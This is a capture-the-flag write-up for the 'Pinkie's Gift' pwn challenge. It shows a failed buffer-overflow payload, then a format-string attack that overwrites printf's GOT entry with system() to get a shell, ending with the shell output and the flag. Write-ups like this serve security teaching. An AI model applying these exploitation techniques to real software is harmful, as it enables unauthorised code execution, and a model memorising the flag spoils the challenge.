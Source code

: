 # Pinkie's Gift
Pwn

## Challenge 

	In this challenge, Santa Pie will give you some unusual gifts. See if you can use this wisdom to get the flag before Christmas.

	Server: nc 199.247.6.180 10006

	Author: PinkiePie1189

pinkiegift

## Solution

Program shows the following text

	Here are some gifts from Santa: 0x8049940 0xf7e2c7e0

### Not buffer overflow

Initially I thought it was a simple buffer overflow.

	$ pwn cyclic 300 | strace ./pinkiegift 
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61617163} ---
	+++ killed by SIGSEGV +++
	Segmentation fault
	
	$ pwn cyclic -l 0x61617163
	263

From debugging, we realise that the address are:

1. system() function 
2. a string with the name of binsh.

Thus, I crafted a simple payload

	$ (python -c 'from pwn import *; print( "A" * (263) + p32(0xf75f47e0) + "Junk" + p32(0x8049940) )'; cat) | ./pinkiegift 

However, it did not work because I realised that the binsh string is actually empty! The challenge creator is sneaky...

	# gdb pinkiegift
	
	(gdb) run
	Starting program: /FILES/pinkiegift 
	Here are some gifts from Santa: 0x8049940 0xf7e2c7e0
	^C
	Program received signal SIGINT, Interrupt.
	0xf7fd4b49 in __kernel_vsyscall ()
	(gdb) x 0x8049940
	0x8049940 <binsh>:	0x00000000

### Format string attack

Psuedo code from decompiling...

	void main() {
		alarm(60);
		print("Here are some gifts from Santa: 0x8049940 0xf7e2c7e0")
		fgets(&str, 128, stdin);
		printf(&str);
		gets(&str);
	}

From the code, we notice that printf() is vulnerable to format string..

Reference: 
- https://nuc13us.wordpress.com/2015/09/04/format-string-exploit-overwrite-got/
- https://ctf101.org/binary-exploitation/what-is-the-got/
- https://github.com/zst123/picoctf-2018-writeups/tree/master/Solved/authenticate
- https://github.com/phieulang1993/ctf-writeups/blob/master/2018/angstromCTF/letter/letter.py

Hence, we can put a `/bin/sh;` string using `fgets()`. After which, override the GOT entry for `printf()` to call `system()` with the param of `/bin/sh;`.


#### GOT Table

	# objdump -d pinkiegift

	Disassembly of section .plt:

	080483b0 <.plt>:
	 80483b0:	ff 35 e8 98 04 08    	pushl  0x80498e8
	 80483b6:	ff 25 ec 98 04 08    	jmp    *0x80498ec
	 80483bc:	00 00                	add    %al,(%eax)
		...

	080483c0 <printf@plt>:
	 80483c0:	ff 25 f0 98 04 08    	jmp    *0x80498f0
	 80483c6:	68 00 00 00 00       	push   $0x0
	 80483cb:	e9 e0 ff ff ff       	jmp    80483b0 <.plt>

	080483d0 <gets@plt>:
	 80483d0:	ff 25 f4 98 04 08    	jmp    *0x80498f4
	 80483d6:	68 08 00 00 00       	push   $0x8
	 80483db:	e9 d0 ff ff ff       	jmp    80483b0 <.plt>

Plan is to override the contents at 0x80498f0 with the given system() address.

#### Solving

I created a pwntools script

	# python solve.py 
	[+] Opening connection to 199.247.6.180 on port 10006: Done
	>> binsh 0x8049940
	>> system 0xf7e1a850
	>> len(payload) 16
	>> write lower 43072
	>> write upper 20369
	[*] Switching to interactive mode
	/bin/sh;??                    

	...

	$ ls
	chall
	flag
	redir.sh
	$ cat flag
	X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}

## Flag

	X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}
